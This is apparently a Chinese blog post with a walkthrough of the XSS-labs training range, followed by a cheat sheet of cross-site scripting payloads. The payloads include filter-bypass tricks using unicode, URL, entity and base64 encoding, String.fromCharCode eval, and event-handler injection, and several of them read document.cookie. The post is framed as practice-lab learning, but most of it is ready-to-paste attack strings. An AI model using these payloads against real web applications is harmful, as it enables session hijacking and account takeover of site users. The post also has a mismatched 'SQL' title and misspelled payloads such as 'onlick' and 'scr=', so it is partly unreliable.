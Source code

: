 ```yaml
---
layout:     post
title:      SQL
subtitle:   教程
date:       2024-10-27
author:     白泽
header-img: img/post-bg-tree.jpg
catalog: true
tags:
    - XSS
    - 靶场
    - 教程
---
```


# XSS-labs通关技巧

1. `GET 参数连接<script>alert()</script>`
2. `根据源代码闭合标签 <'""'>`
3. `onlick=alert() `
4. ` onfocus=javascript:alert() onfoucus=alert(0) `  
5. `<>`-str_replace
6. `大小写`-strtolower
7. `Unicode编码`
8. `a href=javascript:alert()`
9. `双写`
10. `img scr= onerror=alert()>  img scr=  onmouseover=alert()> img src= onmouseout=alert()> `
11. 以下为隐藏传参
12. `隐藏输入框`
13. `修改referer头`
14. `修改User-Agen`
15. `修改cookie`
16. `嵌入网站，触发xss`
17. `ng-include:'level1.php'`
18. `%0a与%0b`-空格绕过
19. `<iframe src="javascript:alert(1)"></iframe>`
20. `exif xss`使用图片马
21. `embed`拼接加绕过
22. `//`注释

## 总结

1. `htmlspecialchars`将预定义的字符数转义为HTML实体，详细为`&` ` ""` `'` `<` `>`**注意单引号不转义**

2. `javascript:alert()`使用JAVA的伪协议

3. `strtolower`大小写

4. `str_replace`替换

5. `ng-include`指令用于包含外部的 HTML 文件。包含的内容将作为指定元素的子节点。

   `ng-include`属性的值可以是一个表达式，返回一个文件名。

   默认情况下，包含的文件需要包含在同一个域名下

```html
<script>alert(document.cookie)</script>
<script>prompt(document.cookie)</script>
<script>confirm(/xss/)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>       //Unicode码  还有十六进制 URL编码 JS编码 HTML实体编码等等
<script>alert/*dsa*/(1)</script>   //绕过黑名单
<script>(alert)(1)</script>        //绕过黑名单
<svg/onload=alert(1)>
<body onload=alert("XSS")>

<svg onload="alert(1)">       //过滤 script时
"><svg/onload=alert(1)//

<input value="1" autofocus onfocus=alert(1)  x="">   //过滤 script时

<a href="" onclick="alert(1111)">

<iframe src="javascript:alert(1)"></iframe>      //过滤 script时

<svg onmousemove="alert(1)">

<input name="name" value=”” onmousemove=prompt(document.cookie) >

<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<input type = "button"  value ="clickme" onclick="alert('click me')" />

<BODY onload="alert('XSS')">

<IMG SRC="" onerror="alert('XSS')">
<IMG SRC="" onerror="javascript:alert('XSS');">

制表符 绕过滤器的
<IMG SRC="" onerror="jav&#x9ascript:alert('XSS');">
1.<iframe src=javascript:alert(1)></iframe> //Tab
2.<iframe src=javascript:alert(1)></iframe> //回车
3.<iframe src=javascript:alert(1)></iframe> //换行
4.<iframe src=javascript:alert(1)></iframe> //编码冒号
5.<iframe src=javascript:alert(1)></iframe> //HTML5 新增的实体命名编码，IE6、7下不支持
<a href=javascript:\u0061\u006C\u0065\u0072\u0074(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWHNzVGVzdCIpOzwvc2NyaXB0Pg=="></object>

"><img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))">

<script>onerror=alert;throw document.cookie</script>
<script>{onerror=alert}throw 1337</script>         //过滤 单引号，双引号，小括号时   没过滤script

<a href="" onclick="alert(1111)">
' οnclick=alert(1111) '   //鼠标点击事件执行JavaScript语句

```

x
